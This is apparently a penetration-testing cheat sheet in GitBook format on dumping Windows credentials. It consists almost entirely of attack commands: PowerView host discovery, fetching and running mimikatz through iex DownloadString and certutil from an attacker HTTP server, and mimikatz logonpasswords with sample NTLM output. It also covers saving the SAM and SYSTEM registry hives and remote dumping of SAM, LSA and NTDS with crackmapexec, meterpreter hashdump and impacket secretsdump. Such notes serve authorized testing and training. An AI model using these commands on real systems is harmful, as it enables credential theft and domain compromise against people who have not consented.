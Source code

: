 # Dumping credentials

## Locally

### Mimikatz

{% content-ref url="../../../tools/tools/mimikatz.md" %}
[mimikatz.md](../../../tools/tools/mimikatz.md)
{% endcontent-ref %}

#### Target preparation&#x20;

The primary thing to do is to look a PC where we are Local admin or have some privilege. Once we find the computer, we connect to it.

```powershell
powershell -ep bypass
. .\PowerView.ps1

Get-Domain
Find-LocalAdminAccess # find access where we are local admin

# connect in those pc 
Enter-PSSession $LOCAL_ADMIN_SYSTEM # (ex. seclogs.research.DOMAIN.local)
```

Now, check the privilege that we have in the machine with this command:

```powershell
whoami /all
```

Then, we need to transfer the tool to dump hashes to the target machine.

{% code title="Linux -> Windows Target" %}
```bash
# into linux
cp /usr/share/windows-resources/mimikatz/x64/mimikatz.exe .
python3 -m http.server 80 

# Download files from windows target
iex (New-Object Net.WebClient).DownloadString('http://$IP/$FILE_NAME')
certutil -urlcache -f http://$IP/$FILE_NAME $LOCAL_FILE_NAME
```
{% endcode %}

{% code title="Windows -> Windows Target" %}
```powershell
# Start a HTTP File Server (HFS) into a Windows machine with .exe
# https://www.rejetto.com/hfs/

# Download files from windows target
iex (New-Object Net.WebClient).DownloadString('http://$IP/$FILE_NAME')
```
{% endcode %}

#### mimikatz.exe

```powershell
PS> .\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit

# output
Authentication Id : 0 ; 302247 (00000000:00049ca7)
Session : UndefinedLogonType from 0
User Name : Alice
Domain : DOMAIN
Logon Server : DC1
Logon Time : 12/01/2023 15:13:19
SID : S-1-5-21-3501040295-3816137123-30697657-1109
msv :
[00000003] Primary
* Username : Alice
* Domain : DOMAIN
* NTLM : a0c8746a6efc7782c7c19c55185145be
```

#### Invoke-Mimikatz.ps1

{% code overflow="wrap" %}
```powershell
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords"'
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (119).png" alt=""><figcaption></figcaption></figure>



### Stealing SAM & SYSTEM

The easiest way to steal those files is to get a copy from the registry:

```powershell
reg save HKLM\sam sam
reg save HKLM\system system
reg save HKLM\security security
```

**Download** those files to your Kali machine and **extract the hashes** using:

```bash
samdump2 SYSTEM SAM
impacket-secretsdump -sam sam -security security -system system LOCAL
```



## Remotely

Sections below allow us to dump credentials from Kali linux to Windows target.

### CrackMapExec

#### Mimikatz

```bash
crackmapexec smb <IP> -u USER -p PASSWORD -M mimikatz
```

#### Dump SAM <a href="#dump-sam-hashes" id="dump-sam-hashes"></a>

```bash
cme smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --sam
```

#### Dump LSA <a href="#dump-lsa-secrets" id="dump-lsa-secrets"></a>

```bash
cme smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --lsa
```

#### Dump NTDS <a href="#dump-the-ntdsdit-from-target-dc" id="dump-the-ntdsdit-from-target-dc"></a>

```bash
cme smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --ntds
#~ cme smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --ntds vss
```



### Metasploit

If we have a open meterpreter session&#x20;

```bash
msf> hashdump
```



### Impacket's secretsdump&#x20;

```bash
impacket-secretsdump DOMAIN.COM/USER:PASS@DC_IP
```





